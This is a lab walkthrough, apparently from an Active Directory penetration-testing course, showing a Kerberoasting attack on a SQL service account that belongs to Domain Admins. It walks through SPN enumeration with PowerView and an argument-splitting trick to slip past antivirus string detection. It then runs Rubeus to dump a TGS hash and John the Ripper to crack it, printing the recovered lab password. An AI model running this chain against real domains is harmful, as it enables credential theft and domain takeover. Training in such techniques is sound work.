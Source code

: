 # Learning Objective 14 (Privilege Escalation | Kerberoasting)

## Tasks

1. **Using the kerberoasting attack, crack password of a SQL server service account**

---

## Solution

1. **Using the kerberoasting attack, crack password of a SQL server service account**

First, **we need to find services running with user accounts as the services running with machine accounts have difficult passwords**.

We can use PowerView or ADModule for discovering such services.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainUser -SPN`:
```
[SNIP]

logoncount            : 39
badpasswordtime       : 11/25/2022 4:20:42 AM
description           : Account to be used for services which need high privileges.
distinguishedname     : CN=svc admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : svc admin
lastlogontimestamp    : 2/14/2025 1:45:16 AM
userprincipalname     : svcadmin
samaccountname        : svcadmin👤
admincount            : 1
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 2/14/2025 9:45:16 AM
instancetype          : 4
usncreated            : 40118
objectguid            : 244f9c84-7e33-4ed6-aca1-3328d0802db0
sn                    : admin
lastlogoff            : 12/31/1600 4:00:00 PM
whencreated           : 11/14/2022 5:06:37 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {2/14/2025 3:40:35 PM, 2/14/2025 2:40:35 PM, 2/14/2025 1:40:35 PM, 2/14/2025 12:40:35 PM...}
serviceprincipalname  : {MSSQLSvc📌/dcorp-mgmt.dollarcorp.moneycorp.local:1433, MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local}
givenname             : svc
usnchanged            : 1139619
memberof              : CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
lastlogon             : 2/14/2025 4:58:23 AM
badpwdcount           : 0
cn                    : svc admin
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectsid             : S-1-5-21-719815819-3726368948-3917688648-1118
primarygroupid        : 513
pwdlastset            : 11/14/2022 9:06:37 AM
name                  : svc admin

[SNIP]
```

Neat! The `svcadmin`, which is a domain administrator has a SPN set! Let's kerberoast it!

**Rubeus and John the Ripper**

We can use Rubeus to get hashes for the `svcadmin` account.

**Note that we are using the `/rc4opsec` option that gets hashes only for the accounts that support RC4.** This means that if `This account supports Kerberos AES 128/256 bit encryption` is set for a service account, the below command will not request its hashes.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args kerberoast /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt`:
```
```
❌

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\ArgSplit.bat`:
```
[!] Argument Limit: 180 characters
[+] Enter a string: kerberoast📌
set "z=t"
set "y=s"
set "x=a"
set "w=o"
set "v=r"
set "u=e"
set "t=b"
set "s=r"
set "r=e"
set "q=k"
set "Pwn=%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
```

```
set "z=t"
set "y=s"
set "x=a"
set "w=o"
set "v=r"
set "u=e"
set "t=b"
set "s=r"
set "r=e"
set "q=k"
set "Pwn=%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
```

`echo %Pwn%`:
```
kerberoast
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt`:
```
[SNIP]

[*] Action: Kerberoasting📌

[*] Using 'tgtdeleg' to request a TGT for the current user
[*] RC4_HMAC will be the requested for AES-enabled accounts, all etypes will be requested for everything else
[*] Target User            : svcadmin👤
[*] Target Domain          : dollarcorp.moneycorp.local
[+] Ticket successfully imported!
[*] Searching for accounts that only support RC4_HMAC, no AES
[*] Searching path 'LDAP://dcorp-dc.dollarcorp.moneycorp.local/DC=dollarcorp,DC=moneycorp,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=svcadmin)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!msds-supportedencryptiontypes:1.2.840.113556.1.4.804:=24))'

[*] Total kerberoastable users : 1

[*] Hash written to C:\AD\Tools\hashes.txt

[*] Roasted hashes written to : C:\AD\Tools\hashes.txt📌
```

We can now use John the Ripper to brute-force the hashes.

Please note that you need to remove ":1433" from the SPN in `hashes.txt` before running John.

`type C:\AD\Tools\hashes.txt`:
```
$krb5tgs$23$*svcadmin$DOLLARCORP.MONEYCORP.LOCAL$MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433*$5D4CC629D36FC997F43A4E1929AAA3E6$19A5438620F00654A115B7E1E46B2254269A7C6F68B695F5F0B17FDB5F7CA4FE98C7B40FDC4CD69AC0BB96707979B73746D7C28A5D74DD328CCAAF0C1866480E9B5F436601CCCF7E89034C81F40B19B508E4C44CF97C9B37923F121B370A0EBB1BF283C696B9AED43E2E83E54522483ABE2C7EA2F0496B54F885AC53C61F6DD3CF...

[SNIP]
```

`notepad C:\AD\Tools\hashes.txt`:
```
$krb5tgs$23$*svcadmin$DOLLARCORP.MONEYCORP.LOCAL$MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local*$5D4CC629D36FC997F43A4E1929AAA3E6$19A5438620F00654A115B7E1E46B2254269A7C6F68B695F5F0B17FDB5F7CA4FE98C7B40FDC4CD69AC0BB96707979B73746D7C28A5D74DD328CCAAF0C1866480E9B5F436601CCCF7E89034C81F40B19B508E4C44CF97C9B37923F121B370A0EBB1BF283C696B9AED43E2E83E54522483ABE2C7EA2F0496B54F885AC53C61F6DD3CFE78D3...

[SNIP]
```

`C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*ThisisBlasphemyThisisMadness!!🔑 (?)
1g 0:00:00:00 DONE (2025-02-14 08:05) 10.10g/s 20686p/s 20686c/s 20686C/s energy..mollie
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
🚩

---
---
